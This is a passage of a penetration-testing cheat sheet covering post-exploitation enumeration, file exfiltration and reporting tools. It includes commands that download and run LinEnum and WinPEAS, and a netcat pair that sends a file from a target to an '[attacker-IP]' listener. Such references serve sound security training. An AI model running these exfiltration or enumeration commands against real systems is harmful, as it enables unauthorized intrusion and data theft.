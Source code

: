   ```bash
  wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
  chmod +x LinEnum.sh
  ./LinEnum.sh
  ```

- Windows:

  - Download and run [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS).

### Data Exfiltration with Netcat

- On attacking machine (listening):

  ```bash
  nc -lvp [port] > [file]
  ```

- On target machine (sending):

  ```bash
  nc [attacker-IP] [port] < [file]
  ```

[Back to Top](#table-of-contents)

---

## 11. Reporting Tools

### Dradis Framework

- Start Dradis:

  ```bash
  dradis
  ```

- Access the web interface at:

  ```
  http://localhost:3000
  ```

### MagicTree

- Start MagicTree:

  ```bash
  magictree
  ```

### Faraday IDE - Collaborative Penetration Test IDE

- Start Faraday:

  ```bash
  faraday-client
  ```
